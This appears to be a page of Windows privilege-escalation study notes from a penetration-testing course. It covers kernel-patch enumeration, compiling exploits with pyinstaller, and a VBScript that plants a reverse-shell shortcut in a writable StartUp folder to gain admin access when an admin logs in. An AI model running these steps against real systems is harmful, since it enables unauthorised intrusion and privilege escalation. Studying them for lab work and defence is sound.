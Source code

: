 

# 11) Kernel Exploits
```bat
systeminfo
```
Identify the hotfixes/patches:
```bat
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

> If we have an exploit written in Python but we don't have Python installed on victim, it can be transformed into binary with 
> `pyinstaller --onefile --noconsole exploit.py` 
> (Try with and without `--noconsole`)

- `wes-ng` Windows exploit suggester
- Precompiled exploits https://github.com/SecWiki/windows-kernel-exploits

# Requires User Login

## X) Startup Apps
```bat
dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```
Check if writable:
```bat
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```
If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.
### Privilege Escalation
Note that the shortcut files `.lnk` must be used. The following VBScript can be used to create a shortcut file:
```VBScript
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```
1) Use `icacls` or `accesschk.exe` to check permissions on the StartUp directory:
	1) `.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`
2) For example, Note that the `BUILTIN\Users` group has write access to this directory.
3) Create a file `CreateShortcut.vbs` with the VBScript provided in a previous slide. Change file paths if necessary.
4) Run the script (on Windows) using `cscript`:
	1) `cscript CreateShortcut.vbs`
5) Start a listener on Kali, then log in as the admin user to trigger the exploit
